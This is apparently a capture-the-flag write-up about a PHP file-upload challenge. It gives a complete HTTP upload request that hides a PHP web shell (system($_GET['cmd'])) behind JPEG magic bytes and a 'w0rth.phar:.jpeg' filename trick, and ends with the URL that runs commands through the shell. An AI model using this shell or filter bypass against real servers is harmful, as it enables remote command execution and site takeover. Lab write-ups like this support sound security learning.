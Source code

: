 ```php
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

The web app stores the files in: `/contact/user_feedback_submissions/240306_w0rth.jpeg` like that where 240306 is 6/3/2024.
Once we found the upload directory we need to upload a web shell in order to find the flag.
FOr the php to be executed I tried the special characters but only `:` worked.
The final request to sen a web shell is :

```bash
POST /contact/upload.php HTTP/1.1
Host: 94.237.55.163:57406
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.55.163:57406/contact/
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------192607832834482457191500253365
Content-Length: 285
Origin: http://94.237.55.163:57406
DNT: 1
Connection: close

-----------------------------192607832834482457191500253365
Content-Disposition: form-data; name="uploadFile"; filename="w0rth.phar:.jpeg"
Content-Type: image/jpeg

ÿØÿÛ  <?php echo system($_GET["cmd"]) ?>
-----------------------------192607832834482457191500253365--
```

To access the web shell go to : `http://94.237.55.163:57406/contact/user_feedback_submissions/240307_w0rth.phar:.jpeg?cmd=ls`